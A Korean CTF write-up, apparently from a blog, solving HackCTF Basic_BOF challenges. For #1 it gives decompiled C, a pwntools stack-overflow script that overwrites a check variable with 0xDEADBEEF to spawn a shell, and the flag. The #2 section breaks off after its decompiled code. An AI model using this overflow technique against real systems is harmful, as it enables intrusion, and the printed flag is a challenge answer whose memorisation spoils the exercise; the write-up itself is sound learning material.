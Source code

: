 > FLAG : daddy, I just pwned a buFFer :)

---
HackCTF Challenge : Basic_BOF #1

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+4h] [ebp-34h]
  int v5; // [esp+2Ch] [ebp-Ch]

  v5 = 0x4030201;
  fgets(&s, 45, stdin);
  printf("\n[buf]: %s\n", &s);
  printf("[check] %p\n", v5);
  if ( v5 != 0x4030201 && v5 != 0xDEADBEEF )
    puts("\nYou are on the right way!");
  if ( v5 == 0xDEADBEEF )
  {
    puts("Yeah dude! You win!\nOpening your shell...");
    system("/bin/dash");
    puts("Shell closed! Bye.");
  }
  return 0;
}
```

<strong>따로 .c 파일이 주어지지 않아 IDA를 이용해서 코드로 변환해보니, v5의 값이 `0xDEADBEEF`면 system 함수를 호출하는 것을 볼 수 있습니다. 이번 문제도 BOF를 이용해서 v5의 값을 `0xDEADBEEF`로 바꿔주면 될 거 같습니다.</strong><br>

```
v5  = 34h - Ch
v5 = 40
```
<strong>v5는 s와 40만큼 떨어져 있다는 것을 알 수 있습니다.</strong><br>

```python
from pwn import *
p = remote("ctf.j0n9hyun.xyz", 3000)

payload = b'a' * (52 - 12)
payload += p32(0xDEADBEEF)

p.sendline(payload)
p.interactive()
```

> FLAG : HackCTF{f1r57_574ck_buff3r_0v3rfl0w_5ucc355}

---
HackCTF Challenge : Basic_BOF #2

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+Ch] [ebp-8Ch]
  void (*v5)(void); // [esp+8Ch] [ebp-Ch]

  v5 = (void (*)(void))sup;
  fgets(&s, 133, stdin);
  v5();
  return 0;
}

(...)

int shell()
{
```